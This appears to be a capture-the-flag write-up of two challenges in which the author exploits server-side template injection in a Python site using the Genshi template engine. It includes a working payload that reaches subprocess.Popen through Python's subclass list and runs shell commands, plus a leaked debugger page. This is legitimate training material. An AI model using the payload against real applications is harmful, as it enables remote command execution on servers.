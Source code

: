 # Website Render

The website was the same for the 2 challenges. It was a simple website that rendered html.

![website](./website.png)


## Website Render 1

![pres1](./wabsite_rendre.PNG)

To exploit this website, I used a SSTI (Server Side Template Injection). this vulnerability allows to execute code by including variables.

Firstly, this website didn't allowed to parse code that wasn't in html tags. To bypass this protection, I simply put all my payloads between `<p>` tags.


I tried to trigger the exploit by using `${var}`.

!["ssti_reco"](./ssti_reco.PNG)

Full output : 

```html
<!doctype html>
<html lang=en>
  <head>
    <title>genshi.template.eval.UndefinedError: "haha" not defined
 // Werkzeug Debugger</title>
    <link rel="stylesheet" href="?__debugger__=yes&amp;cmd=resource&amp;f=style.css">
    <link rel="shortcut icon"
        href="?__debugger__=yes&amp;cmd=resource&amp;f=console.png">
    <script src="?__debugger__=yes&amp;cmd=resource&amp;f=debugger.js"></script>
    <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "FwWhDDaB2pGJMQ84Qck9";
    </script>
  </head>
  <body style="background-color: #fff">
    <div class="debugger">
<h1>UndefinedError</h1>
<div class="detail">
  <p class="errormsg">genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</p>
</div>
<h2 class="traceback">Traceback <em>(most recent call last)</em></h2>
<div class="traceback">
  <h3></h3>
  <ul><li><div class="frame" id="frame-140111860320000">
  <h4>File <cite class="filename">"&lt;string&gt;"</cite>,
      line <em class="line">1</em>,
      in <code class="function">&lt;Expression &#39;haha&#39;&gt;</code></h4>
  <div class="source "></div>
</div>
</ul>
  <blockquote>genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</blockquote>
</div>

<div class="plain">
    <p>
      This is the Copy/Paste friendly version of the traceback.
    </p>
    <textarea cols="50" rows="10" name="code" readonly>Traceback (most recent call last):
  File &#34;&lt;string&gt;&#34;, line 1, in &lt;Expression &#39;haha&#39;&gt;
genshi.template.eval.UndefinedError: &#34;haha&#34; not defined
</textarea>
</div>
<div class="explanation">
  The debugger caught an exception in your WSGI application.  You can now
  look at the traceback which led to the error.  <span class="nojavascript">
  If you enable JavaScript you can also use additional features such as code
  execution (if the evalex feature is enabled), automatic pasting of the
  exceptions and much more.</span>
</div>
      <div class="footer">
        Brought to you by <strong class="arthur">DON'T PANIC</strong>, your
        friendly Werkzeug powered traceback interpreter.
      </div>
    </div>

    <div class="pin-prompt">
      <div class="inner">
        <h3>Console Locked</h3>
        <p>
          The console is locked and needs to be unlocked by entering the PIN.
          You can find the PIN printed out on the standard output of your
          shell that runs the server.
        <form>
          <p>PIN:
            <input type=text name=pin size=14>
            <input type=submit name=btn value="Confirm Pin">
        </form>
      </div>
    </div>
  </body>
</html>

<!--

Traceback (most recent call last):
  File "<string>", line 1, in <Expression 'haha'>
genshi.template.eval.UndefinedError: "haha" not defined


-->
```

As we can see at the end of the error code, the language used was python, which mean it had a great probability of being powed up by Flask.

To run code in with this vulnerability, it's necessary to find a library like os or subrocess. To do it, I used the statement.

```python
"".__class__.__mro__[1].__subclasses__()
```

which is a way to list the disponible libraries.

!["ssti"](./ssti.PNG)

If we search in this output, we can find subrpocess.Popen

!["ssti1"](./ssti1.PNG)

This command allows to execute code.

Now that I had it, I had to find the index of this librarie. After some tries, I found that it was 528.

So, I used this command to do a ls.

```
<p>${"".__class__.__mro__[1].__subclasses__()[528]("ls", shell=True, stdout=-1).communicate()}</p>
```

!["ssti_ls1"](./ssti_ls1.PNG)

We can see that there is a directory called flag. With another ls, I found the file flag.txt in it.

!["ssti2"](./ssti2.PNG)

So here we got the first flag, unlocking the second part.


## Website Render 2

!["chall_head"](./website_render2.PNG)

This challenge was similar to the first one. The only difference was that the flag was in a different directory, preventing a hacker to find it without a ls.

!["sstiv2"](./ssti_v2.PNG)

With the payload we crafted for the first challenge, it was quite easy solving the 2 challenges.
